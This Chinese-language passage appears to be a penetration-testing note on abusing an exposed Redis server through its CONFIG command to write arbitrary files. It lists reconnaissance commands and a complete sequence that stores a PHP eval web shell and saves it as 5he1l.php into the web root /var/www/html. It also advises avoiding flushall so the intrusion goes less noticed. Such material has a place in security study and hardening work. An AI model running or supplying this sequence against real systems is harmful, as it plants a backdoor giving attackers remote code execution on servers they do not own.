 Redis自身提供了一个config的命令,用来实现备份功能，然后备份的文件名和备份的路径都可以控制,从而可以实现任意文件写功能：

	config get dir
	config get dbfilename

这种情况一般大都是出在了root权限执行的redis中,或者是以某个web服务来启动的redis，从而对web目录具有了可写的权限。

信息泄露：

	info

	config get *

![](images/redis.jpg)

![](images/redis2.png)

	select 5
	set 1 '<?php eval($_POST["test"]);?>'
	config set dir /var/www/html
	config set dbfilename 5he1l.php
	save
	quit

这里不建议使用 flushall。flushall命令会清空所有缓存数据,这个在一定程度不会造成巨大的损失，但是会给业务体验带来影响。默认保存的是当前数据库下内容,所以我们完全不用flushall来清空默认0号的数据库内容。

redis 默认数据库有16个，选择一个空的数据库即可：

![](images/redis3.jpg)
